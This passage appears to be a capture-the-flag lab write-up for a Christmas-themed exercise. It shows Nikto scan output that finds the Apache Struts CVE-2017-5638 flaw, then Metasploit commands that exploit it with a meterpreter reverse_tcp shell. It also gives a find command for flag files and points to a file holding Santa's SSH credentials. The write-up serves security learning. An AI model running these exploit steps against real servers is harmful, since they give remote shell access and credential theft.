 ```console
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: showcase.action
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'nikto-added-cve-2017-5638' found, with contents: 42
+ /index.action: Site appears vulnerable to the 'strutshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638).
me: 10.8.14.151
```
As you can se the site is vulnerble to [strutshock](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638)
```console
$ set LHOST <my ip> # set for reverse
$ search strut # search for vuln
$ use 2 # slect vuln
$ set payload linux/x86/meterpreter/reverse_tcp
$ set RHOST <target>
$ set RPOTY <80>
$ set TARGETURL /showcase.action
$ exploit
```
The flag file is call xxxxxFlag1.txt. Good luck finding it. hint ```find / 2>>/dev/null | grep -i "flag"```

## Now you've compromised the web server, get onto the main system. What is Santa's SSH password?
```/home/santa/ssh-creds.txt``` 

## Who is on line 148 of the naughty list?
```console

      \         /   \         /   \         /   \         /
      _\/     \/_   _\/     \/_   _\/     \/_   _\/     \/_
       _\-'"'-/_     _\-'"'-/_     _\-'"'-/_     _\-'"'-/_
      (_,     ,_)   (_,     ,_)   (_,     ,_)   (_,     ,_)
        | ^ ^ |       | o o |       | a a |       | 6 6 |
        |     |       |     |       |     |       |     |
        |     |       |     |       |     |       |     |
        |  Y  |       |  @  |       |  O  |       |  V  |
        `._|_.'       `._|_.'       `._|_.'       `._|_.'
         Dasher        Dancer       Prancer        Vixen
      \         /   \         /   \         /   \         /
      _\/     \/_   _\/     \/_   _\/     \/_   _\/     \/_
       _\-'"'-/_     _\-'"'-/_     _\-'"'-/_     _\-'"'-/_
      (_,     ,_)   (_,     ,_)   (_,     ,_)   (_,     ,_)
        | q p |       | @ @ |       | 9 9 |       | d b |
        |     |       |     |       |     |       |     |
        |     |       |     |       |  _  |       |     |
        | \_/ |       |  V  |       | (_) |       |  0  |
        `._|_.'       `._|_.'       `._|_.'       `._|_.'
         Comet         Cupid         Donder       Blitzen
                           \         /
                           _\/     \/_
                            _\-'"'-/_
                           (_,     ,_)
                             | e e |
                             |     |
                        '-.  |  _  |  .-'
                       --=   |((@))|   =--
```